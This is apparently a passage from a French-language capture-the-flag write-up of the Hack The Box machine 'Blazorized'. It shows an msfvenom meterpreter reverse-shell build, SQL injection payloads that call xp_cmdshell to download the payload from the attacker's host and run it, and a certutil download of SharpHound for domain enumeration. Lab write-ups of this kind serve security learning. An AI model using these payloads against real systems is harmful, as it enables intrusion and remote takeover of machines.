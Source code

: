 Dans la section `Check Duplicate Post Titles` nous trouvons une fonctionnalité qui utilise très probablement la base de données (MSSQL), nous nous en servons et essayons d'obtenir un reverse shell via des injections SQL.

1. Nous commençons par créer un fichier `exe` malveillant.

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=LISTENER_PORT -f exe -o shell.exe
```

2. Après avoir mis en place un serveur web, nous transférons le fichier sur le système cible.

```
'; IF (SELECT CONVERT(INT, value_in_use) FROM sys.configurations WHERE name = 'xp_cmdshell') = 1 EXEC master.dbo.xp_cmdshell 'powershell -c "curl http://YOUR_IP:WEBSERVER_PORT/shell.exe -o %TEMP%\shell.exe" --
```

![malicious file dropped on target](/images/HTB-Blazorized/revshell1.png)

3. Nous démarrons un listener dans Metasploit via `exploit/multi/handler`.

4. Nous exécutons le fichier malicieux `exe` sur la cible et obtenons un shell meterpreter en tant que `NU_1055`.

```
'; IF (SELECT CONVERT(INT, value_in_use) FROM sys.configurations WHERE name = 'xp_cmdshell') = 1 EXEC master.dbo.xp_cmdshell ' %TEMP%\shell.exe --
```

![Meterpreter shell foothold](/images/HTB-Blazorized/foothold.png)

Nous trouvons le drapeau utilisateur sur le bureau.

![user flag](/images/HTB-Blazorized/user_flag.png)

### Mouvement latéral (Shell en tant que RSA_4810)

Habituellement, nous utilisons Bloodhound avec des identifiants afin de rassembler toutes les données relatives au domaine. Lorsque nous n'avons pas accès à des informations d'identification, nous pouvons utiliser [SharpHound](https://github.com/BloodHoundAD/SharpHound) pour effectuer l'énumération du domaine.
```
certutil.exe -urlcache -split -f http://YOUR_IP:WEBSERVER_PORT/SharpHound.exe sharphound.exe
```

![SharpHound transfer](/images/HTB-Blazorized/download_sharphound.png)

![SharpHound zip file](/images/HTB-Blazorized/sharhound_zip.png)

Nous téléchargeons l'archive `zip` sur notre machine locale, l'extrayons et téléchargeons les fichiers dans Bloodhound.

Nous trouvons l'utilisateur `NU_1055`, puis nous allons dans `Node Info` --> `First Degree Object Control` sous `OUTBOUND OBJECT CONTROL`. Nous découvrons que l'utilisateur a le droit `WriteSPN` sur l'utilisateur `RSA_4810`.
